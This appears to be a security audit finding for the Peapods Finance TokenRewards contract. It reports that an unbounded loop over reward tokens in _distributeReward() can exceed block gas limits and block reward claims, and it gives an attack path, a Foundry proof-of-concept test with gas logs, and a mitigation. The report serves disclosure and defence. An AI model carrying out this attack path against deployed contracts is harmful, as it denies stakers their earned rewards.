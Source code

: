Furry Berry Armadillo

Medium

# (DoS) Risk in _distributeReward()

### Summary

The unbounded iteration over `_allRewardsTokens` in [_distributeReward()](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/TokenRewards.sol#L236) will cause denial-of-service (DoS) for stakers as the function will fail due to excessive gas consumption when too many reward tokens are added.

### Root Cause

In `TokenRewards.sol`, the function `_distributeReward(address _wallet)` loops over `_allRewardsTokens` without limit:

```solidity
function _distributeReward(address _wallet) internal {
    if (shares[_wallet] == 0) {
        return;
    }
    for (uint256 _i; _i < _allRewardsTokens.length; _i++) { // ❌ UNBOUNDED LOOP
        address _token = _allRewardsTokens[_i];

        if (REWARDS_WHITELISTER.paused(_token)) {
            continue;
        }

        uint256 _amount = getUnpaid(_token, _wallet);
        rewards[_token][_wallet].realized += _amount;
        rewards[_token][_wallet].excluded = _cumulativeRewards(_token, shares[_wallet], true);

        if (_amount > 0) {
            rewardsDistributed[_token] += _amount;
            IERC20(_token).safeTransfer(_wallet, _amount);
            emit DistributeReward(_wallet, _token, _amount);
        }
    }
}
```

Since `_allRewardsTokens` grows indefinitely, this function eventually exceeds `Ethereum’s` block gas limit and `Base` block gas limit `(~30M gas)`, making it impossible to execute.

### Internal Pre-conditions

1. Stakers must hold shares (shares[_wallet] > 0).
2. Reward tokens must be added continuously via _depositRewards(), increasing _allRewardsTokens indefinitely.
3. No limit on _allRewardsTokens (can exceed 300+ tokens).
4. Users must call _distributeReward() indirectly via claimReward().

### External Pre-conditions

1. Ethereum block gas limit remains ~30M gas.
2. Reward tokens must have liquidity and transfers enabled.
3. Users must attempt to claim rewards once gas cost is too high.


### Attack Path

1. Attacker deposits multiple reward tokens via `_depositRewards()`.
2. `_allRewardsTokens` grows infinitely, leading to an unbounded loop.
3. Legitimate users call `claimReward()`, which triggers `_distributeReward()`.
4. `_distributeReward()` exceeds the gas limit, making reward claims fail.
5. Users are permanently blocked from claiming their rewards, creating a `denial-of-service` attack on the protocol.

### Impact

Stakers cannot withdraw their earned rewards.

### PoC

```solidity
 function testGasIncreaseWithMoreTokens() public {
        vm.prank(address(trackingToken));
        tokenRewards.setShares(user1, 100e18, false);

        uint256[] memory tokenCounts = new uint256[](6);
        tokenCounts[0] = 10;
        tokenCounts[1] = 20;
        tokenCounts[2] = 50;
        tokenCounts[3] = 100;
        tokenCounts[4] = 200;
        tokenCounts[5] = 300;

        uint256[] memory gasUsages = new uint256[](6);

        for(uint256 i = 0; i < tokenCounts.length; i++) {
            // Reset the contract state for each test
            setUp();

            vm.prank(address(trackingToken));
            tokenRewards.setShares(user1, 100e18, false);
            
            for(uint256 j = 0; j < tokenCounts[i]; j++) {
                MockERC20 token = new MockERC20(
                    string(abi.encodePacked("RT", vm.toString(j))),
                    string(abi.encodePacked("RT", vm.toString(j)))
                );
                token.mint(address(this), 1000e18);
                token.approve(address(tokenRewards), type(uint256).max);
                rewardsWhitelister.setWhitelist(address(token), true);

                try tokenRewards.depositRewards(address(token), 10e18) {
                } catch (bytes memory err) {
                    emit log_named_uint("Failed at token count", tokenCounts[i]);
                    emit log_bytes(err);
                    return;
                }
            }

            uint256 startGas = gasleft();
            try tokenRewards.claimReward(user1) {
                uint256 gasUsed = startGas - gasleft();
                gasUsages[i] = gasUsed;
                emit log_named_uint("Number of tokens", tokenCounts[i]);
                emit log_named_uint("Gas used", gasUsed);
            } catch (bytes memory err) {
                emit log_named_uint("Failed at token count", tokenCounts[i]);
                emit log_bytes(err);
                return;
            }
        }
    }
```
```solidity
Ran 1 test for test/TokenRewards.t.sol:TokenRewardsTest
[PASS] testGasIncreaseWithMoreTokens() (gas: 832336224)
Logs:
  Number of tokens: 10
  Gas used: 1014829
  Number of tokens: 20
  Gas used: 2023543
  Number of tokens: 50
  Gas used: 5049727
  Number of tokens: 100
  Gas used: 10093499
  Number of tokens: 200
  Gas used: 20181539
  Number of tokens: 300
  Gas used: 30270250

```

### Mitigation

Enforce a Limit on `_allRewardsTokens`